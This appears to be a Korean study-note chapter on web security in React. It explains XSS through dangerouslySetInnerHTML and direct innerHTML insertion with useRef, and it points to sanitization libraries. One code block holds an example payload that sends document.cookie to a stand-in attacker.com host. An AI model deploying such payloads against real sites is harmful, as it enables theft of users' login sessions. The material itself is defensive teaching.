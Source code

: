 ```yaml
---
sidebar_position: 14
title: "14장 웹사이트 보안을 위한 리액트와 웹페이지 보안 이슈"
description: 웹사이트 보안을 위한 리액트와 웹페이지 보안 이슈
authors: [MtypEyuc]
tags: [React]
hide_table_of_contents: false
---
```

## 1. 리액트에서 발생하는 크로스 사이트 스크립팅(XSS)
웹사이트 개발자가 아닌 제3자가 **개발자 도구나 사용자 입력을 받는 UI 요소에 접근해** 웹사이트에 악성 스크립트를 삽입해 실행할 수 있는 취약점을 의미한다. 쿠키를 획득해 사용자의 로그인 세션 등을 탈취하거나 사용자의 데이터를 변경하는 등 각종 위험성이 있다.

---
### 1. dangerouslySetInnerHTML prop
특정 브라우저 DOM의 innerHTML을 특정한 내용으로 교체할 수 있는 방법이다.
```jsx
function App() {
// 다음 결과물은 <div>First · Second</div>이다.
return <div dangerouslySetInnerHTML={{ __html: 'First &middot; Second' }} />
}
```
- __html을 키를 가지고 있는 객체만 인수로 받을 수 있으며, 이 인수로 넘겨받은 문자열을 DOM에 그대로 표시하는 역할을 한다. 인수로 받는 문자열에 제한은 없기 때문에 사용에 주의를 기울여야 하며 검증이 필요하다.


---
### 2. useRef를 활용한 직접 삽입
DOM에 직접 내용을 삽입할 수 있는 방법
```jsx
const html = `<span><svg/onload=alert(origin)></span>`
function App() {
const divRef = useRef<HTMLDivElement>(null)
useEffect(() => {
if (divRef.current) {
divRef.current.innerHTML = html
}
})
return <div ref={divRef} />
}
```
```html
<span><svg/onload=fetch('https://attacker.com/steal?cookie='+document.cookie)></span>
```
- 여러가지 이벤트를 사용해 웹 사이트에 접근해 개발자가 만들지 않은 코드를 삽입할 수 있다.


---
### 3. 리액트에서 XSS 문제를 피하는 방법
제3자가 삽입할 수 있는 HTML을 안전한 HTML 코드로 한 번 치환하는 것이다. 이러한 과정을 새니타이즈(sanitize) 또는 이스케이프(escape) 라고 한다. npm에 있는 라이브러리를 사용한다.
- [DOMpurity](https://github.com/cure53/DOMPurify)
- [sanitize-html](https://github.com/apostrophecms/sanitize-html)
- [js-xss](https://github.com/leizongmin/js-xss)
#### 1. sanitize-html 사용법
```
npm install sanitize-html
```
